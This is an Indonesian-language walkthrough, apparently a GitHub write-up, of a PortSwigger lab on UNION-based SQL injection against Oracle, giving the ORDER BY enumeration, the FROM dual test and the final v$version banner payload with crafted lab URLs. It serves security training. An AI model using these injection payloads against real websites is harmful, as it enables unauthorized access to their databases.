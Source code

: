 # Soal - SQL injection attack, querying the database type and version on Oracle  

Source soal : https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle  

## Deskripsi Soal 
Melakukan serangan SQL Injection UNION untuk mengidentifikasi tipe dan versi database yang digunakan. Petunjuk dari judul lab secara eksplisit menyatakan bahwa database yang digunakan adalah Oracle.
Tujuannya adalah menyuntikkan query melalui filter kategori produk untuk mengekstrak informasi versi dari tabel sistem Oracle dan menampilkannya di halaman

## Penyelesaian 
1. Akses lab dan mengklik salah satu filter kategori, yaitu Gifts untuk mengamati URL. URL yang terlihat adalah `https://0a0b008a04d321288082178e004600be.web-security-academy.net/filter?category=Gifts`      
<img width="1527" height="591" alt="image" src="https://github.com/user-attachments/assets/16ef642e-1aad-46ae-87e3-19ac54be86f6" />  

2. Untuk mengetahui berapa banyak kolom yang diambil oleh query asli dapat menambahkan payload `' ORDER BY 1 --` agka 1 bisa diubah menjadi angka lain  
<img width="1674" height="731" alt="image" src="https://github.com/user-attachments/assets/587d3b53-184a-4bf8-b8f4-b16379fa9325" />  
<img width="1536" height="727" alt="image" src="https://github.com/user-attachments/assets/bd10131b-b3a3-4d72-a136-e766eb62fc1e" />  
<img width="1585" height="382" alt="image" src="https://github.com/user-attachments/assets/175e394f-8e72-4b12-b40f-c9b608a275e6" />  
Ternyata pada `'ORDER BY 3 --` terjadi internal error, yang menunjukkan bahwa query asli mengambil 2 kolom

3. Untuk mengetahui kolom mana yang bisa menampilkan data string pada Oracle, SELECT dalam UNION harus memiliki klausa FROM. Tabel dual adalah tabel dummy bawaan di Oracle yang bisa disuntikkan payload `' UNION SELECT 'a','b' FROM dual --` sehingga URL akan berubah menjadi `https://0a0b008a04d321288082178e004600be.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20%27a%27,%27b%27%20FROM%20dual--`
<img width="1551" height="597" alt="image" src="https://github.com/user-attachments/assets/0734f5ce-3328-49ba-a204-c04a36ab22ad" />  
Hasilnya, teks "abc" dan "def" muncul di halaman di tempat nama dan deskripsi produk. Ini mengonfirmasi bahwa kedua kolom dapat menerima tipe data string

4. Untuk Oracle, informasi versi disimpan dalam view v$version di dalam kolom yang disebut banner.
- Membuat payload untuk mengambil banner dan menempatkan NULL di kolom kedua
- Payload Final: `' UNION SELECT banner, NULL FROM v$version--`
- URL modifikasi : `https://0a0b008a04d321288082178e004600be.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20banner,%20NULL%20FROM%20v$version--`  
<img width="1614" height="670" alt="image" src="https://github.com/user-attachments/assets/77c57502-7c9a-4503-acda-f8c96ba677f5" />  



## Hasil 
Berhasil menampilkan versi database Oracle   
> Serangan ini berhasil karena sintaks yang spesifik untuk database Oracle
> - Menggunakan ORDER BY untuk enumerasi kolom
> - Penggunaan tabel dual (FROM dual) wajib ada dalam sintaks SELECT di Oracle
> - Mengetahui tabel sistem v$version dan kolom banner untuk mengekstrak informasi yang diminta
